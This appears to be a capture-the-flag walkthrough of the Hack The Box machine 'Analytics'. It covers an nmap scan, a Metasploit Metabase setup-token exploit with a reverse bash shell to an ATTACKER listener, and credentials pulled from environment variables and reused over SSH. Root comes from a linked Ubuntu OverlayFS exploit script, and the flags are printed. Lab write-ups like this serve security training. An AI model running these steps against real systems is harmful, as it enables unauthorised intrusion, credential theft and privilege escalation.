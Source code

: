 # Analytics - Walkthrough

![TITLE](title.png)

## TARGET : 10.10.11.233
## ATTACKER : OPENVPN IP

## Scanning

`nmap -A -p- -T4 10.10.11.233`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

![WEBSITE](website.png)

There is a login page, but domain is different. Let's add `data.analytical.htb` to our `/etc/hosts` file.

![LOGIN](login.png)

## Exploitation

Let's try to see if there is any vulnerability in `Metabase`

![METABASE-EXPLOIT](metabase-exploit.png)

```
msf6 exploit(linux/http/metabase_setup_token_rce) > show options

Module options (exploit/linux/http/metabase_setup_token_rce):

   Name       Current Setting              Required  Description
   ----       ---------------              --------  -----------
   Proxies                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     http://data.analytical.htb/  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      3000                         yes       The target port (TCP)
   SSL        false                        no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                            yes       The URI of the Metabase Application
   VHOST                                   no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  ATTACKER     yes       The listen address (an interface may be specified)
   LPORT  9001             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
```

We just need to set `RHOSTS` and `LHOST` and run the exploit.

```
msf6 exploit(linux/http/metabase_setup_token_rce) > run

[*] Started reverse TCP handler on ATTACKER:9001 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (ATTACKER:9001 -> 10.10.11.233:37704) at 2023-12-08 13:43:09 +0100

id    
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=047063332d83
FC_LANG=en-US
SHLVL=5
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=/bin/sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/
MB_DB_FILE=//metabase.db/metabase.db
```

Currently we are logged in as `metabase` user

## Privilege Escalation

We can see that there is a user `metalytics` and we have the password `An4lytics_ds20223#`. Let's try to login with `ssh`.

`ssh metalytics@data.analytical.htb`

```
metalytics@analytics:~$ ls
user.txt
metalytics@analytics:~$ cat user.txt 
2e32f79a3d48267f4c75f8f07c1d4ad5
metalytics@analytics:~$ 
```
There is a vulnerable version of ubuntu installed on the machine and this [Exploit](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh) can be used to get root access.

```
metalytics@analytics:~$ nano exploit.sh
metalytics@analytics:~$ chmod +x exploit.sh 
metalytics@analytics:~$ ./exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:~# whoami
root
root@analytics:~# cat /root/root.txt
0ec5e65e18ffbd0f5a6acf805e79e1b1
```

